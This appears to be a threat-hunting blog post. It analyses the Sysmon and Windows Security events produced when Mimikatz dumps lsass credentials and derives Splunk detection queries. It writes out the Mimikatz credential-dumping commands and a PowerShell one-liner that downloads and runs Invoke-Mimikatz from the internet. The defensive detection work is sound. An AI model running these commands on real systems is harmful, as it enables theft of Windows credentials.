










* TOC
{:toc}

# Chasing down PowershellMafia
In the first of my tales we will analyze the behaviour of tools that need to read from Lsass.exe process' memory in order to steal valuable credential information. For this, we will begin with Mimikatz, as it's quite renowned and we all like [gentilkiwi](https://github.com/gentilkiwi/mimikatz/wiki)! We will investigate Mimikatz' behaviour whilst running as a standalone executable and whilst running from memory (fileless scenario).

After a sweep of the artifacts that are observable using standard Windows/Sysmon logs, we will detonate Mimikatz and analize its memory traces using Volatility to evaluate if we can find any markers that will allow us to create other Yara/SIEM rules.
Finally, the goal is to run other credential dumping tools and attempt to identify any commonalities that could provide for a more abstract IOC.

Our end goal: to develop detection artifacts (IOCs, Correlation Rules, Other Signatures, etc.) that would allow us to capture most of the tricks used by the wizards of powershellmafia. Terrible things wait for us ahead, are you brave enough? ヾ(⌐■_■)ノ


# Threat Profile
For the purposes of starting a classification of the threats that will be explored in these series, let's begin with a rough categorization scheme that will evolve into a more complete threat ontology framework. 

|---------------------|--------------------------------------------------------------------| 
| **Category**        | Exfiltration                                                       | 
| **Type**            | lsass process injection/manipulation/read                          | 
| **Execution Types** | in-memory (fileless) or standalone executable                      | 
| **Detection Ratio** | 80%                                                                | 
| **PoC Tools**       |  Mimikatz / Inject-LogonCredentials / Invoke-ReflectivePEInjection | 
| **Hunting Method**  |  Grouping                                                          | 
| **Test OS**         |  Win10 (OS Build 14393.321)                                        | 


# Mimikatz as a standalone executable
Here we focus solely on the most popular combination of commands (same applies for in-memory Mimikatz): 
```
privilege::debug
sekurlsa::logonpasswords
```

For in-memory Mimikatz we will also test it by direct download via powershell rather than downloading the script to disk:
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia
/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```

## Hunting with Sysmon Events Only

To begin these series, we will use Splunk (the free version, I will also add some snips for ELK later) due to its powerful query language and ease of use, to cut the time from logging to identification.

First thing we observe is that, when running Mimikatz as a standalone executable, we have ~84 events in total within a timewindow of 3s (*this is relevant in the sense that your IOC or Correlation Rule shouldn't be looking for signs beyond the 5s window*): 



If we reduce those events to their unique instances and sort them by time we get the following sequence:
```Markdown
Query: "mimikatz"  NOT "EventCode=4658"  NOT "EventCode=4689" | dedup EventCode
```



If we look at the EventCode field which holds the value of the Windows Security or Sysmon Event ID we can observe the following sequence: 



With all this info we should be able to craft a detection artifact based on a time-ordered sequence of events, on the one side, and an unordered BOOLEAN logic on the other. So let's delve into the sequence of generated events to determine if we can extract a valid pattern for our detection artifact. 

First, Sysmon "Process Create" (EventCode 1): 



Not much to see here, hashes and "cmd.exe" as ParentImage are the only interesting markers, but an intruder could easily modify 1byte in the Mimikatz code to render hash detection useless, and "cmd.exe" may not always be the parent of the process. 

Next is a series of EventCode 10, which equates to Sysmon's "Process Accessed"
```Markdown
Query: "mimikatz"  NOT "EventCode=4658"  NOT "EventCode=4689"  EventCode=10 | stats count by  _time, SourceImage, TargetImage, GrantedAccess 
```



Interestingly enough, we can see here that Mimikatz accessing lsass.exe happens after a series of events where the Mimikatz process itself is accessed by other processes like cmd, conhost, csrss, taskmgr, and lsass itself (!) followed by wmiprvse. The first three we can discard, as they are generated due to the fact we are launching Mimikatz from the commandline. However, an interesting pattern to look for may be that, immediately before Mimikatz reads from lsass' memory, lsass itself reads from Mimikatz's one. 

The interesting info about lsass accessing Mimikatz can be seen here: 

```
GrantedAccess: 0x1478
CallTrace: C:\Windows\SYSTEM32\ntdll.dll+a5314|C:\Windows\system32\lsasrv.dll+d127|C:\Windows\system32\lsasrv.dll+e1dd|C:\Windows\system32\lsasrv.dll+cfa5|C:\Windows\SYSTEM32\SspiSrv.dll+11a2|C:\Windows\System32\RPCRT4.dll+77de3|C:\Windows\System32\RPCRT4.dll+dbc6d|C:\Windows\System32\RPCRT4.dll+a8dc|C:\Windows\System32\RPCRT4.dll+5a194|C:\Windows\System32\RPCRT4.dll+590ad|C:\Windows\System32\RPCRT4.dll+5995b|C:\Windows\System32\RPCRT4.dll+39afc|C:\Windows\System32\RPCRT4.dll+39f7c|C:\Windows\System32\RPCRT4.dll+5426c|C:\Windows\System32\RPCRT4.dll+55acb|C:\Windows\System32\RPCRT4.dll+485ca|C:\Windows\SYSTEM32\ntdll.dll+325fe|C:\Windows\SYSTEM32\ntdll.dll+330d9|C:\Windows\System32\KERNEL32.DLL+8364|C:\Windows\SYSTEM32\ntdll.dll+65e91
```
```
GrantedAccess: 0x1000
CallTrace: C:\Windows\SYSTEM32\ntdll.dll+a5ea4|C:\Windows\System32\RPCRT4.dll+10a1f|C:\Windows\system32\lsasrv.dll+ceed|C:\Windows\SYSTEM32\SspiSrv.dll+11a2|C:\Windows\System32\RPCRT4.dll+77de3|C:\Windows\System32\RPCRT4.dll+dbc6d|C:\Windows\System32\RPCRT4.dll+a8dc|C:\Windows\System32\RPCRT4.dll+5a194|C:\Windows\System32\RPCRT4.dll+590ad|C:\Windows\System32\RPCRT4.dll+5995b|C:\Windows\System32\RPCRT4.dll+39afc|C:\Windows\System32\RPCRT4.dll+39f7c|C:\Windows\System32\RPCRT4.dll+5426c|C:\Windows\System32\RPCRT4.dll+55acb|C:\Windows\System32\RPCRT4.dll+485ca|C:\Windows\SYSTEM32\ntdll.dll+325fe|C:\Windows\SYSTEM32\ntdll.dll+330d9|C:\Windows\System32\KERNEL32.DLL+8364|C:\Windows\SYSTEM32\ntdll.dll+65e91
```

After this interaction, Mimikatz finally decides to access lsass:

```
GrantedAccess: 0x1010
CallTrace: C:\Windows\SYSTEM32\ntdll.dll+a5314|C:\Windows\System32\KERNELBASE.dll+2940d|C:\Users\Artanis\Documents\mimikatz_trunk\x64\mimikatz.exe+6dc6c|C:\Users\Artanis\Documents\mimikatz_trunk\x64\mimikatz.exe+6dfd9|C:\Users\Artanis\Documents\mimikatz_trunk\x64\mimikatz.exe+6db91|C:\Users\Artanis\Documents\mimikatz_trunk\x64\mimikatz.exe+4ae04|C:\Users\Artanis\Documents\mimikatz_trunk\x64\mimikatz.exe+4ac3a|C:\Users\Artanis\Documents\mimikatz_trunk\x64\mimikatz.exe+4aa21|C:\Users\Artanis\Documents\mimikatz_trunk\x64\mimikatz.exe+73935|C:\Windows\System32\KERNEL32.DLL+8364|C:\Windows\SYSTEM32\ntdll.dll+65e91
```

The next interesting Event is EventCode 7 or Sysmon's "Image Loaded":
```Markdown
Query: "mimikatz"  NOT "EventCode=4658"  NOT "EventCode=4689"  EventCode=10 | stats count by  _time, SourceImage, TargetImage, GrantedAccess 
```



We can see all the modules that are imported by Mimikatz in order to be able to do its thing. These constitute a good marker as well, not by themselves but in conjuntion with our other events. 

Next in the line we find a Sysmon Event 11 "File Create" which points to the creation of a pre-fetch record for Mimikatz created by SVCHOST which is hosting Windows' prefetch service: 



We then observe Sysmon's Event ID 8 which corresponds to "Create Remote Thread", curiously enough, it's WmiPrvSE the one starting a remote threat on Mimikatz, we never thought Mimikatz itself was going the be the victim instead of the victimator!



After this, we observe a sequence similar to the one described in the previous Sysmon Event ID 10, where Mimikatz is accessed by a few processes and finally accesses lsass (same Access Mask [0x1010] and Call Trace).


## Hunting with Sysmon and Windows Events

This hunt gets even more interesting when we start observing Windows Security and Sysmon Events intertwined together
```Markdown
Query: "mimikatz"  NOT "EventCode=4658"  NOT "EventCode=4689" | stats count by EventCode, _time | sort _time
```



Here we notice that Events **4663** (*An attempt was made to access an object*), **4656** (*A handle to an Object was requested*), **4703** (*Token Right Adjusted*) and **4673** (*Sensitive Privilege Use*) are showing up. Their presence makes sense, due to the operations that Mimikatz has to go through in order to access lsass process' memory. As you can see, it's starting to look quite hard for such a program to hide from event traces. Of course, Mimikatz could also be loaded from memory in a fileless scenario, and event log tracing could be disabled with tools like [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m), however, as we'll see, *these techniques can also leave traces*. If the right audit policy is configured in your environment, even tools that interfere with and wipe Windows Event Logs *need to load first* and acquire a few OS privileges before doing evil right? And if you have a centralized logging system like a SIEM (again, as long as your log forwarding policy is properly configured) you will always have a trace of events even when they could have even been wiped out of the source host. 

So if we actually break this down to the sequence of traces left behind by a Mimikatz file execution under the new scenario we have this: 

| EventCode | _time                        | Comment                                                                                                                                        | 
|-----------|------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------| 
| 1         | 2017-09-04T16:52:32.000-0700 | Sysmon Process Create: Mimikatz started                                                                                                        | 
| 4673      | 2017-09-04T16:52:32.000-0700 | Sensitive Privilege Use (Failure): SeTcbPrivilege requested by mimikatz.exe                                                                    | 
| 4688      | 2017-09-04T16:52:32.000-0700 | A new Process has been created (we knew this via Sysmon already)                                                                               | 
| 7         | 2017-09-04T16:52:32.000-0700 | Sysmon Image Loaded: A few events where Mimikatz loads all its required modules                                                                | 
| 4703      | 2017-09-04T16:52:35.000-0700 | Token Right Adjusted: Enabled Privileges: SeDebugPrivilege / Process Name: mimikatz.exe                                                        | 
| 10        | 2017-09-04T16:52:41.000-0700 | Sysmon Process Accessed: Source Image: mimikatz.exe / Target Image: lsass.exe / GrantedAcces: 0x1010 / CallTrace: multiple markers (see above) | 
| 4656      | 2017-09-04T16:52:41.000-0700 | A handle to an object was requested: Process Name: mimikatz.exe / Accesses: Read from process memory / Acess Mask: 0x1010                      | 
| 4663      | 2017-09-04T16:52:41.000-0700 | An attempt was made to access an object: Process Name: mimikatz.exe / Access Mask: 0x10                                                        | 
| 11        | 2017-09-04T16:52:42.000-0700 | Sysmon File Created: Image: svchost.exe / TargetFileName: C:\Windows\Prefetch\MIMIKATZ.EXE-CE8DB7C6.pf                                         | 

## Detection Artifact I
During our lab tests using Sysmon Event 10 (Process Accessed) proved to be most efficient. A Splunk query similar to this: 
```Markdown
EventCode=10 | where (GrantedAccess="0x1010" AND TargetImage LIKE "%lsass.exe")
```
should get you pretty close to pinpointing some weird lsass.exe access ;)

However you could combine this marker along with the preceeding or following Windows Events to create a more robust detection for your SIEM solution via **event correlation**.

# Running Mimikatz from memory using Invoke-Mimikatz from PowerSploit
For this next lab test, we will leverage the known [PowerSploit module](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1) to load Mimikatz in memory without touching disk. The script was run at around 12:00:25. 

## Hunting with Sysmon and Windows Events

If we run the following search, limiting ourselves to the bare minimum progression of unique Events: 
```Markdown
powershell OR lsass | dedup TaskCategory | stats count by _time, EventCode | chart count by EventCode
```

We get the following picture: 



Which can be broken down into: 

| Time                   | Comment                                                                                                                                                                                                                                                                                                                     | 
|------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------| 
| 09/06/2017 11:55:33 PM |  So we find that the only process that resembles the "CallTrace" parameter observed for the standalone Mimikatz is wininit.exe.                                                                                                                                                                                             | 
| 09/06/2017 11:55:33 PM |  Pipe Created event where lsass.exe creates PipeName: \lsass                                                                                                                                                                                                                                                                | 
| 09/06/2017 11:55:33 PM |  We have a "Pipe Connected" event where "C:\Windows\system32\svchost.exe" uses "PipeName: \lsass"                                                                                                                                                                                                                           | 
| 09/06/2017 11:56:44 PM |  When powershell is started to host the malicious script it needs to start as "admin" which creates an EventCode 4703 (Token Right Adjusted) with the "SeDebugPrivilege". This can be used in a transactional search disregarding the name of the process and searching for the process ID instead across different events. | 
| 09/07/2017 12:00:25 AM |  EventCode 4656 (A handle to an object was requested) - Process Name is "powershell"; Access Mask is 0x143A; Accesses are: "Create new thread in process; Perform virtual memory operation; Read from process memory; Write to process memory; Query process information"                                                   | 
| 09/07/2017 12:00:25 AM |  EventCode 4663 (An attempt was made to access an object) - Process Name is "powershell"; Access Mask is 0x10; Object Name is "\Device\HarddiskVolume2\Windows\System32\lsass.exe"                                                                                                                                          | 
| 09/07/2017 12:00:25 AM |  EventCode 4673 (A privileged service was called) - Powershell fails to obtain SeTcbPrivilege; a behaviour we already observed with the standalone Mimikatz                                                                                                                                                                 | 
| 09/07/2017 12:00:25 AM |  EventCode 4690 (An attempt was made to duplicate a handle to an object) - Source Process ID matches that of Powershell and the Target Process ID is System (0x4)                                                                                                                                                           | 
| 09/07/2017 12:00:35 AM |  EventCode 4673 (Sensitive Privilege Use) - lsass seems to invoke LsaRegisterLogonProcess() Service from the NT Local Security Authority Server. This happens 10s after Invoke-Mimikatz.                                                                                                                                    | 
 

## Detection Artifact II
During our lab tests using Windows Event 4656 for detection of Mimikatz activity proved to be most efficient. A Splunk query similar to this: 
```Markdown
EventCode=4656 OR EventCode=4663 | eval HandleReq=case(EventCode=4656 AND Object_Name LIKE "%lsass.exe" AND Access_Mask=="0x143A", Process_ID) | where (HandleReq=Process_ID)
```
or this
```Markdown
EventCode=4656 | where (Object_Name LIKE "%lsass.exe" AND Access_Mask=="0x143A")
```

constitute great candidates for an alert.

## Detection Artifact III
Tested with the Empire version of Invoke-Mimikatz and realised that Access_Mask changes from "0x143A" to "0x1410". This time however, when running this other version the Access_Mask generates more FP so we need to couple it with another AND gate that looks for processes finishing with "shell.exe" (*powershell.exe*). The caveat is that it will be easier to bypass 'cause an attacker can always change the name of the powershell executable or load powershell without powershell using a few dlls. If we couple this new detection with the other observed windows events though, a more robust signature may emerge. 

```Markdown
EventCode=4656 | where ((Object_Name LIKE "%lsass.exe" AND Access_Mask=="0x143A") OR (Process_Name LIKE "%shell.exe" AND Object_Name LIKE "%lsass.exe" AND Access_Mask=="0x1410")
``` 

In the next article, we shall continue to explore other artifacts left behind by Mimikatz's execution in memory as well as what type of events are generated by tools like [Invoke-CredentialInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-CredentialInjection.ps1). Later, we will run Mimikatz in the context of its several Kerberos-fooling techniques to see if we can detect spoofed Tickets and other treachery ;). 

## Updates
13/09/2017 | added details about test OS & powershell expression used for in-memory execution. Added Detection Artifact III
